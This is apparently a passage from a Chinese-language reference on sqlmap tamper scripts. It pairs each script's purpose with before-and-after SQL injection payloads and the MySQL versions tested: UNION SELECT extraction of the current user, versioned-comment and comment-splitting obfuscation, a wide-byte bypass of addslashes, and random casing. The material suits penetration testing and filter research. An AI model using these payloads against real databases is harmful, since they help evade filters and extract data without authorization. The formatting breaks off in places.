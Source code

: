 在以下版本做过测试:

All

**4:halfversionedmorekeywords.py**

作用：关键字前加注释

示例：

```
value’ UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND ‘QDWa’='QDWa 
value’/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)), NULL, NULL#/*!0AND ‘QDWa’='QDWa
```

版本要求:

```
MySQL < 5.1
在以下版本做过测试:
MySQL 4.0.18, 5.0.22
```

**5:unionalltounion.py**

作用：替换UNION ALL SELECT UNION SELECT

示例：

```
'-1 UNION ALL SELECT'
'-1 UNION SELECT'
```

版本要求: all

**6:randomcomments.py**

作用：用/**/分割sql关键字

```
‘INSERT’
‘IN//S//ERT’
```

**7:unmagicquotes.py**

作用：宽字符绕过 GPC addslashes

示例：

```
1’ AND 1=1 
 1%bf%27 AND 1=1–%20
8:randomcase.py
```

作用：随机大小写

示例：
INSERT
InsERt
在以下版本做过测试:
